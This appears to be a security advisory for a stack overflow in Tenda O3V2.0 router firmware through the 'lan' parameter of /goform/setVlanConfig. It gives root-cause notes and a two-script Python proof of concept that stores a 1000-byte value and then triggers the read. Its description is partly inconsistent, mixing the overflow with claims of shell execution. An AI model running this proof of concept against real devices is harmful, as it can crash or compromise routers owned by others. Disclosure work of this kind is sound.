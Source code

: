 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `lan` POST parameter accepted by `/goform/setVlanConfig` is written to the configuration key `lan.1.vlanid` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getVlanConfig`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `lan.1.vlanid`.

## Technical details

- The `setVlanConfig` endpoint accepts a POST parameter `lan` and calls `SetValue("lan.1.vlanid", v7)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_115558.png)

- The `getVlanConfig` endpoint reads `lan` via `get_mib_2cJSONString(Object, (int)"lan", (int)"lan.1.vlanid", v6)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_115845.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_120022.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `lan.1.vlanid` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setVlanConfig"
payload =  b"a"*1000

data = {"lan":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getVlanConfig"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)